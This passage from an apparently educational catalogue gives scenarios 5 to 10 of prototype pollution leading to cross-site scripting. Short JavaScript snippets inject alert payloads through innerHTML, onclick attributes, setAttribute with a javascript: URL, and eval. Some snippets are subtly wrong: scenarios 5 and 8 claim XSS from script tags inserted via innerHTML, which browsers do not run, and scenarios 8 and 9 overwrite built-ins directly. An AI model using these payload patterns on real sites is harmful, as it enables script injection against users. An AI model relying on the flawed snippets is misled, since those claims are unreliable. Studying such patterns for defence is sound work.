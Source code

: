 
### 5. Template String Injection
**Scenario**: A polluted property is used in a template string rendered unsafely.
```javascript
Object.prototype.name = '<script>alert("XSS")</script>';
const user = {};
document.body.innerHTML = `<div>${user.name}</div>`; // XSS
```

---

### 6. Event Handler Pollution
**Scenario**: Polluted property used in an event handler attribute.
```javascript
Object.prototype.onclick = 'alert("XSS")';
const obj = {};
document.body.innerHTML = `<button onclick="${obj.onclick}">Click</button>`; // XSS on click
```

---

### 7. DOM Attribute Manipulation
**Scenario**: Polluted value used in `setAttribute`.
```javascript
Object.prototype.src = 'javascript:alert("XSS")';
const img = {};
document.querySelector('img').setAttribute('src', img.src); // XSS
```

---

### 8. Polluted Array Join
**Scenario**: Array prototype pollution affects `join` output rendered in DOM.
```javascript
Array.prototype.join = function() { return '<script>alert("XSS")</script>'; };
const arr = [1, 2, 3];
document.body.innerHTML = arr.join(); // XSS
```

---

### 9. Polluted Function Prototype
**Scenario**: Function prototype pollution executes code when called.
```javascript
Function.prototype.call = function() { alert('XSS'); };
const fn = function() {};
document.body.innerHTML = 'Click to trigger';
fn.call(); // XSS
```

---

### 10. Eval with Polluted Property
**Scenario**: Polluted property passed to `eval`.
```javascript
Object.prototype.code = 'alert("XSS")';
const settings = {};
eval(settings.code); // XSS
```

---